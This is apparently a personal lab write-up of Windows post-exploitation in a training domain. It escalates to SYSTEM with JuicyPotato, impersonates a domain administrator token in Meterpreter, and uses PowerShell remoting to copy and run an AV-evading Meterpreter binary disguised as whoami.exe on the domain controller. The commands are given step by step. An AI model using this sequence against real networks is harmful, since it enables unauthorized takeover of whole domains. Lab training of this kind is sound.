 ## #post-exploitation Enumeration
Now to try to find a #privilege_escalation pathway in Cevapi.
![[Pasted image 20221114120446.png]] 

1. First things first - let's run the **whoami /priv** command.  ***note*** - we have the #SeImpersonatePrivilege !!!! This could lead to #JuicyPotato
2. Next, let's run **systeminfo** to further enumerate

## #privilegeEscalation 
The #JuicyPotato source code can be found at https://github.com/ohpe/juicy-potato. 
1. Once **JuicyPotato.exe** is on the kali machine, we use our meterpreter shell to upload it to Cevapi (**upload /home/kali/cevapi/JuicyPotato.exe c:/Users/Public/JuicyPotato.exe**)
	- per the documentation, we need to provide **-t**, **-p**, and **-l** 
	- `C:\Users\Public\JuicyPotato.exe -t t -p C:\Users\Pulic\whoami.exe -l 5837`
2. Start a new listener and run the Jenkins build.
	- Note we get a system shell

## #post-exploitation enumeration
1. Since Cevapi is domain-joined, let's see if any domain accounts are logged in to #impersonate their tokens.  From the meterpreter shell, type **use incognito** and **list_tokens -u** 
	- Note that we appear to have ***`sandbox\Administrator`*** logged in !  
2. We try to impersonate this user to verify that we can escalate our privs
	- In meterpreter, use **impersonate_token sandbox\\Administrator** 
	- Note that it appears to be successful upon using the **getuid** command followed by the **shell** command and the **whoami** command.
3. Next, run **net user /domain administrator** 
	- note that the output indicates that the user administrator is a member of Domain Admins and Enterprise Admins groups

# Targeting the #DC 
![[Pasted image 20221114132922.png]] 

## exploiting the #DC 
With the ability to run commands as the domain admin user, one way we can get access to the DC is by using hte PowerShell *New-PSSession* cmdlet to open a new session against a remote host.
1. Discover the DCs hostname using the **nslookup** command (no options runs it in interactive mode)
	- Run **set type=all** to look at all types, then run a lookup on the  **``_ldap._tcp.dc._msdcs.sandbox.local``** entry within the sandbox.local domain.  The resulting #hostname is SANDBOXDC.sandbox.local
2. With the hostname in-hand, we launch powershell from the administrator meterpreter shell and run the following command : **$dcsesh = New-PSSession -Computer SANDBOXDC** 
3. Use *Invoke-Command* to run a command against the DC along with the *-Session* and *-ScriptBlock* flags to execute commands
	- **Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}** 
	- note that we can run commands as the DC.
4. Transfer and execute the meterpreter shell by using the same whoami.exe with AV bypass.
	- **`Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\whoami.exe" -ToSession $dcsesh`** 
5. Now we need to start a new listener. 
	- Run the **run -j** option to start it as a background job
	- list the metepreter sessions (**sessions -l**), then select theadministrator session  for Cevapi (**sessions -i 2**)
	- Run the **powershell** command
	- Execute the PowerShell command to run the whoami binary on the DC
		- **$dcsesh = New-PSSession -Computer SANDBOXDC** 
		- **``Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\whoami.exe}``**  
	- Background the Cevapi session and open up the Meterpreter session 3 that was opened up.
	- Verify with a **whoami** and **hostname** command, and validate that you are the DC!